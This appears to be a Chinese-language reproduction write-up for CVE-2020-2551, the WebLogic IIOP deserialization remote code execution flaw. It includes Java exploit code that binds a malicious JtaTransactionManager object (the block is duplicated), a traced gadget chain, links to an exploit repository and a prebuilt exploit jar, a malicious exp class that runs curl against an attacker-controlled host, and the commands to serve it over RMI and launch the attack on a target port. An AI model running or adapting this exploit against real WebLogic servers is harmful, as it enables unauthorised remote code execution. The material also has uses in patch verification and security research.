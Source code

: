 

（CVE-2020-2551）Weblogic CVE-2020-2551 IIOP协议反序列化rce
-----------------------------------------------------------

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

现在我们来看这个漏洞。IIOP传输的过程中会自动序列化和反序列化，那么我们可以通过向服务器7001端口发送一个恶意的序列化对象，IIOP达到RCE。

发送恶意序列化对象的过程，其实就是bind的过程，由此我们可以构造请求

    Hashtable<String, String> env = new Hashtable<String, String>();
    // add wlsserver/server/lib/weblogic.jar to classpath,else will error.
    env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
    env.put("java.naming.provider.url", rhost);
    Context context = new InitialContext(env);
    // get Object to Deserialize
    JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
    jtaTransactionManager.setUserTransactionName(rmiurl);
    
    Remote remote = createMemoitizedProxy(createMap("pwned"+System.nanoTime(), jtaTransactionManager), Remote.class);
    context.rebind("Y4er"+System.nanoTime(), remote);
    Hashtable<String, String> env = new Hashtable<String, String>();
    // add wlsserver/server/lib/weblogic.jar to classpath,else will error.
    env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
    env.put("java.naming.provider.url", rhost);
    Context context = new InitialContext(env);
    // get Object to Deserialize
    JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
    jtaTransactionManager.setUserTransactionName(rmiurl);
    
    Remote remote = createMemoitizedProxy(createMap("pwned"+System.nanoTime(), jtaTransactionManager), Remote.class);
    context.rebind("Y4er"+System.nanoTime(), remote);

你肯定疑惑**JtaTransactionManager**和**weblogic.jndi.WLInitialContextFactory**是从哪来的？

1.  JtaTransactionManager是spring爆出的一个可以JNDI注入的类，在weblogic中也存在。
2.  weblogic.jndi.WLInitialContextFactory 是weblogic的JNDI工厂类。

国际惯例，跟一下流程，IIOP解析数据流的部分看不懂不跟了，从IIOP开始反序列化对象开始

**E:/source/java/Weblogic/src/main/resources/lib/modules/weblogic.jar!/weblogic/iiop/IIOPInputStream.class:1725**

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId25.png)

此时var2是序列化传入的**com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager**，跟进**readValue()**

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId26.png)

跟进readValueData()，判断是否有readObject方法之后进入自身的readObject()，也就是`om.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager`的readObject

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId27.png)

然后通过反射调用**JtaTransactionManager**的\*\*readObject()\*\*跟进

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId28.png)

到此之后就是Weblogic的CVE-2018-3191 spring
JNDI注入了，简单来说就是lookup()的参数可控，导致可以加载任意类。我们继续跟进**initUserTransactionAndTransactionManager()**

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId29.png)

如果**userTransaction**等于空有**userTransactionName**属性则进入**lookupUserTransaction()**，跟进

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId30.png)

此时\*\*lookup()\*\*参数可控

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId31.png)

**lookup**加载我们的RMI服务，可以注入恶意ip的rmi服务，触发实例化恶意类构造方法调用

### 漏洞复现

    https://github.com/ianxtianxt/CVE-2020-2551

**打包好的jar包**

    https://download.0-sec.org/download/weblogic_CVE_2020_2551.zip

下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java

    package payload;
    
    import java.io.IOException;
    
    public class exp {
    
        public exp() {
            String cmd = "curl http://172.16.1.1/success";
            try {
                Runtime.getRuntime().exec(cmd).getInputStream();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

**尽量使用和weblogic相同的版本编译** 然后本地起一个web服务器

    python -m http.server --bind 0.0.0.0 80

命令行运行jar包

    java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp

实际效果如图

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId33.gif)

参考链接
--------

> https://y4er.com/post/weblogic-cve-2020-2551/
